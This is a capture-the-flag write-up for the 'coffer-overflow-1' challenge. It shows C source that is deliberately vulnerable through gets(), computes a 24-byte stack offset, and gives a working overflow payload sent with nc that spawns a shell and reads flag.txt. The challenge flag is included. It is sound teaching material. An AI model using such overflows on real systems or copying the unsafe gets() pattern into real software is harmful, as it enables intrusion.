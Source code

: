 ```yaml
---
layout: post
title: "coffer-overflow-1"
author: "raghul-rajasekar"
---
```


The coffers keep getting stronger! You'll need to use the source, Luke.
`nc 2020.redpwnc.tf 31255`

**Files:**
- [coffer-overflow-1]({{site.baseurl}}/assets/coffer-overflow-1/coffer-overflow-1)
- [coffer-overflow-1.c]({{site.baseurl}}/assets/coffer-overflow-1/coffer-overflow-1.c)

## Solution

The source file contains the following code:

```C
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
This is similar to `coffer-overflow-0` except that `code` now needs to contain a specific value. For this, we just need to fill up the bytes between `name` and `code` with some junk and fill `code` with `0xcafebabe`.  From the disassembly of `coffer-overflow-1`, we can see that `code` is located at `rbp - 0x8` and `name` is located at `rbp - 0x20`, meaning that we require `0x18 = 24` bytes of junk followed by `0xcafebabe` as the input.

On running

```
python -c "print('abcdabcdabcdabcdabcdabcd\xbe\xba\xfe\xca\x00\x00\x00\x00\ncat flag.txt\n')" > payload
nc 2020.redpwnc.tf 31255 < payload
```

we get the contents of `flag.txt` from the server, as expected.
## Flag

`flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}`
